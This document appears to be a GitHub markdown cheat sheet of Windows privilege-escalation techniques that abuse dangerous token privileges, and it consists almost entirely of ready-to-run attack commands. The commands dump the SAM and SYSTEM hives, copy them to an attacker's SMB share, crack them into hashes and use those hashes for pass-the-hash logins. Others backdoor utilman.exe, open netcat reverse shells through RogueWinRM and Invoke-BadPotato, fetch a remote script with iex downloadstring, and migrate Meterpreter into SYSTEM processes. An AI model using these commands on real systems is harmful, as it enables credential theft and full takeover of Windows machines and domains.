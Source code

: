 # Privilege check command: whoami /priv

# Examples of dangerous privileges:

## SeBackup/SeRestore

#### 1: Backup SAM and SYSTEM hashes

 - cd /

 - mkdir temp

 - cd temp

 - req save hklm\system c:\temp\system

 - req save hklm\sam c:\temp\sam

 - download sam

 - download system

#### 2: Create SMB Server on attacking machine

 - 1: mkdir share

 - 2: impacket-smbserver -smb2support -username USER -password PASSWORD public share

#### 3: Copy backups to share folder

- copy c:\users\user\sam.hive \\ATTACK_IP\public\

- copy c:\users\user\system.hive \\ATTACK_IP\public\

#### 4: Retrieve hashes

 - impacket-secretsdump -sam sam.hive -system system.hive LOCAL

## OR 

 - pypykatz registry --sam sam system

#### 5: Pass-The-Hash Attack (PtH)

- impacket-psexec -hashes HASH administrator@TARGET_IP

#### TIP: We can also use evil-winrm for PtH attacks.

- evil-winrm -i TARGET_IP -u administrator -H 'NTLM_HASH'

## Alternate Method to transfer the Hives: reg.py  remotely on Linux

 - python smbserver.py -smb2support share /tmp

 - reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SAM' -o '\\attacker ip\share'

 - reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SYSTEM' -o '\\attacker ip\share'

 - reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SECURITY' -o '\\attacker ip\share'

## Alternate Method: SeBackupPrivilegeUtils https://github.com/giuliano108/SeBackupPrivilege

### Usage:

 - Import-Module .\SeBackupPrivilegeUtils.dll

 - Import-Module .\SeBackupPrivilegeCmdLets.dll

 - Set-SeBackupPrivilege

 - Get-SeBackupPrivilege

## Alternate Method: Robocopy

 - robocopy C:\Users\Administrator\Desktop C:\Users\Public root.txt /B

 - type C:\Users\Public\root.txt

## SeTakeOwnership

#### Essentially, we can take ownership of a service running as SYSTEM and elevate privileges.

### Example: Utilman.exe

#### 1: takeown /f c:\windows\system32\utilman.exe

#### 2: icacls c:\windows\system32\utilman.exe /grant USER:F

#### 3: copy cmd.exe utilman.exe

#### 4: Trigger uitlman : Lock screen, click ease of access

## SeImpersonate/SeAssignPrimaryToken

### A lot of potato exploits work with these privileges, so in our example we will talk about RoguePotato.

#### RogueWinRM.exe exploit

#### 1: Start listener

#### c:\path\to\roguewinrm\roguewinrm.exe -p "C:\path\to\nc64.exe" -a "-e cmd.exe ATTACK_IP PORT"

## Tool: PrintSpoofer

## Link: https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0

## Tool: Invoke-BadPotato

## Link: https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-BadPotato.ps1

Download the script on our target machine

    iex(new-object net.webclient).downloadstring('http://10.10.14.5:9999/Invoke-BadPotato.ps1')

Run the script to get system

    Invoke-BadPotato -Command "c:\temp\nc.exe -e powershell.exe ATTACK_IP PORT"

## SeDebug Privilege

### Tools: Meterpreter, https://github.com/decoder-it/psgetsystem

### Steps:

#### 1) Get-Process winlogon (Check for a specific SYSTEM level process running on the machine)

#### 2) Download and execute Meterpreter on target machine to connect to us

#### 3) ps (Check for processes running as SYSTEM. Example: winlogon.exe)

#### 4) migrate PID (Take ownership of the elevated process)

#### 5) VOILA!

## TIP: If the SeDebug Privilege is disabled, we can enable it with psgetsystem powershell script (Link attached at the top of this attack's explanation)
